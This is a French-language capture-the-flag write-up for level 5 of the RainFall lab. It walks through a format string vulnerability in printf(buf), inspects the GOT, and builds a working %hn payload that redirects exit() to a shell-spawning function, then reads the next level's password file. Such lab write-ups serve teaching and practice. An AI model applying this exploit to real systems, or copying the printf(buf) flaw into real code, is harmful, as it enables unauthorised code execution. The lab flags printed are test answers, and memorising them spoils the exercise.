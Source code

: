 # Level 5

pass : `0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a`

## Sources :

```c
#include <stdio.h>

int m = 0;  // 0x08049854

void	o() {  // 0x080484a4
	system("/bin/sh");
	_exit(1);
}

void	n() {  // 0x080484c2
	char	buf[520];  // ebp-0x208 | esp+0x10

	fgets(buf, 512, stdin);  // 0x200
	printf(buf);
	exit(1);
}

void	main() {  // 0x08048504
	n();
}
```

## Recherche :

> Ici, on voit que la fonction `o()` à l'adresse `0x080484a4` nous permettrait d'exécuter un shell.
> On va donc exploiter `printf()` pour changer le pointeur de fonction de `exit()` pour le faire pointer plutôt vers `o()`. On va donc faire comme l'exercice précédent, mais cette fois au lieux d'écrire dans une variable, on va écrire dans une fonction.

Comme fait précédement, on va chercher l'offset qu'on trouve à `4`:
```
$ ./script.sh ./level5
Index 0
Index 1
Index 2
Index 3
Index 4
AAAA41414141
```

Inspectons la GOT (**Global Offset Table**) :

```
[0]kali@kali:~/rainfall$ objdump -R ./level5

./level5:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE
08049814 R_386_GLOB_DAT    __gmon_start__
08049848 R_386_COPY        stdin@@GLIBC_2.0
08049824 R_386_JUMP_SLOT   printf@GLIBC_2.0
08049828 R_386_JUMP_SLOT   _exit@GLIBC_2.0
0804982c R_386_JUMP_SLOT   fgets@GLIBC_2.0
08049830 R_386_JUMP_SLOT   system@GLIBC_2.0
08049834 R_386_JUMP_SLOT   __gmon_start__
08049838 R_386_JUMP_SLOT   exit@GLIBC_2.0
0804983c R_386_JUMP_SLOT   __libc_start_main@GLIBC_2.0
```

On va donc écrire à l'adresse `0x08049838` où se trouve la routine `exit`.

```gdb
gdb-peda$ r < <(perl -e 'print "\x38\x98\x04\x08%4\$n"')
Starting program: /home/kali/rainfall/level5 < <(perl -e 'print "\x38\x98\x04\x08%4\$n"')

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x4
EBX: 0x0
ECX: 0x0
EDX: 0x7ffffffb
ESI: 0xb7fb7000 --> 0x1dfd6c
EDI: 0xb7fb7000 --> 0x1dfd6c
EBP: 0xbffff2f8 --> 0xbffff308 --> 0x0
ESP: 0xbffff0dc --> 0x8048504 (<main>:  push   ebp)
EIP: 0x4
EFLAGS: 0x10282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x4
[------------------------------------stack-------------------------------------]
0000| 0xbffff0dc --> 0x8048504 (<main>: push   ebp)
0004| 0xbffff0e0 --> 0x1
0008| 0xbffff0e4 --> 0x200
0012| 0xbffff0e8 --> 0xb7fb7580 --> 0xfbad2098
0016| 0xbffff0ec --> 0xb7fda53c (<dl_main+8636>:        mov    eax,DWORD PTR [ebp-0x14c])
0020| 0xbffff0f0 --> 0x8049838 --> 0x4
0024| 0xbffff0f4 ("%4$n")
0028| 0xbffff0f8 --> 0x0
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x00000004 in ?? ()
```

On a bien mis dans l'`EIP` l'addresse `0x4`, c'est à dire le nombre de bits de `\x38\x98\x04\x08`
Maintenant on va mettre l'addre de `o()` qui est `0x080484a4` avec `%hn`

Donc on veut excrire `0x84a4` puis `0x0804`
- `0x0804` - `8` = `2044`
- `0x84a4` - `0x0804` = `31904`

`
r < <(python -c 'print "\x3a\x98\x04\x08\x38\x98\x04\x08%2044x%4$hn%31904x%5$hn"')`

```gdb
(gdb) b o
Breakpoint 1 at 0x80484aa
(gdb) r < <(python -c 'print "\x3a\x98\x04\x08\x38\x98\x04\x08%2044x%4$hn%31904x%5$hn"')
Starting program: /home/user/level5/level5 < <(python -c 'print "\x3a\x98\x04\x08\x38\x98\x04\x08%2044x%4$hn%31904x%5$hn"')
:8
.
.
.
Breakpoint 1, 0x080484a7 in o ()
(gdb)
```
On a donc réussi à atteindre `o()` :)

Il ne reste plus qu'à lancer la commande et récuperer le pass.

## Exploit :

```shell
level5@RainFall:~$ (python -c 'print "\x3a\x98\x04\x08\x38\x98\x04\x08%2044x%4$hn%31904x%5$hn"';cat) | ./level5
whoami
level6
cd ../level6
cat .pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```

----

## Documentation :
* [Une simple Exploitation de vulnérabilité Format String](https://www.exploit-db.com/papers/23985)
